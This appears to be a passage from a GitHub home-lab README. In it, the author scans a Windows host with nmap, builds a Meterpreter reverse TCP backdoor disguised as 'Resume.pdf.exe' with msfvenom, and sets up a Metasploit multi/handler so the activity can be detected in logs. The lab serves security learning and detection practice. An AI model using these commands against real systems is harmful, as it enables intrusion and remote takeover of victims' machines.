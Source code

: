 > [!NOTE]
> Remember to disable the firewalls.


## Step 7: Generating logs and catching EVIL!!

1. On the kali machine, run **"nmap"** command to see which ports are open on the windows machine and they are highlighted:

         nmap -A 192.168.20.11 -Pn

      <img width="1583" height="720" alt="image" src="https://github.com/user-attachments/assets/d626d083-1233-40bb-a73f-ca96bcaa16ba" />

> [!CAUTION]
> This lab is purely for learning purposes, DO NOT use these techniques to cause harm or you will get picked up by cops and generally these tactics WILL be detected by antiviruses.

2. Next we need to build our malware. I'll be using **"msfvenom"** to create a malware. These are the commands we can use.

       msfvenom
      <img width="1436" height="673" alt="image" src="https://github.com/user-attachments/assets/8a9a4caf-2fce-4c89-af26-fab9b10b7c27" />

3. To get a list of payloads available to us run this command:

         msfvenom -l payloads
      <img width="1572" height="798" alt="image" src="https://github.com/user-attachments/assets/cfa614f4-4d25-470b-a28a-a130561f920e" />

4. From this list we will be using the reverse tcp payload to create a backdoor on our target windows machine. Now its time to build the malware equiped with this payload. The name of the file will be **"Resume.pdf.exe"**

         msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.20.12 lport=4444 -f exe -o Resume.pdf.exe
      <img width="894" height="371" alt="image" src="https://github.com/user-attachments/assets/b3fc3464-02f7-49df-8132-f9025531b3a4" />

5. Check if the file is present

         ls
      <img width="973" height="466" alt="image" src="https://github.com/user-attachments/assets/7bef3b9d-763c-4d87-9ac7-2d4950258263" />

6. Now lets open metasploit console

         msfconsole
      <img width="862" height="728" alt="image" src="https://github.com/user-attachments/assets/334f406d-f864-4ca7-b275-2c9d5fed678e" />

7. This console will be used to configure our payload and to interract with the malware once its executed in the target machine. We will use multi handler:

         use exploit/multi/handler
      <img width="489" height="70" alt="image" src="https://github.com/user-attachments/assets/859b86af-fa2c-4f66-9fcf-ea9c6c33a860" />

8. Lets see what we can configure using this command:

         options
      <img width="772" height="323" alt="image" src="https://github.com/user-attachments/assets/c67dd990-bc4f-4805-b2e3-cebb91a00593" />
